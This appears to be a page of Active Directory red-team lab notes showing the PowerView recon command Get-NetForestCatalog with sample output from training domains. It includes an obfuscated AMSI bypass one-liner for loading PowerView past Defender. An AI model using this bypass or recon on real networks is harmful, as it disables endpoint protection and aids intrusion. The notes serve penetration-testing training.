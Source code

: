 ```
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : eurocorp-dc.eurocorp.local
RidRoleOwner            : eurocorp-dc.eurocorp.local
InfrastructureRoleOwner : eurocorp-dc.eurocorp.local
Name                    : eurocorp.local

Forest                  :
DomainControllers       :
Children                :
DomainMode              :
DomainModeLevel         :
Parent                  :
PdcRoleOwner            :
RidRoleOwner            :
InfrastructureRoleOwner :
Name                    : eu.eurocorp.local
```

#### Tags:

<pre>#!AD #!ActiveDirectory #!Windows #!PowerShell #!PowerView #!Trust #!Forest</pre>

<br/><br/>

### Attacks
* Get-NetForestCatalog (PowerView)
	* Overview

* Get all global catalogs for the current forest

#### Dependencies:

* PowerView
    - https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
    - Load up PowerView
    - If Defender is not disabled, AMSI will step in and detect
    - You will need to use a bypass to load it correctly
        + ```sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;   (   GeT-VariaBle  ( "1Q2U" +"zx"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )```
    - `cd C:\AD\Tools\`
    - `. .\PowerView.ps1`

#### Attack Command: Run with `powershell`!

* `Get-NetForestCatalog`
* `Get-NetForestCatalog -Forest eurocorp.local`

	* Examples

```
PS C:\AD\Tools> Get-NetForestCatalog

Forest                     : moneycorp.local
CurrentTime                : 2/4/2021 6:07:20 PM
HighestCommittedUsn        : 323532
OSVersion                  : Windows Server 2016 Standard
Roles                      : {SchemaRole, NamingRole, PdcRole, RidRole...}
Domain                     : moneycorp.local
IPAddress                  : 172.16.1.1
SiteName                   : Default-First-Site-Name
SyncFromAllServersCallback :
```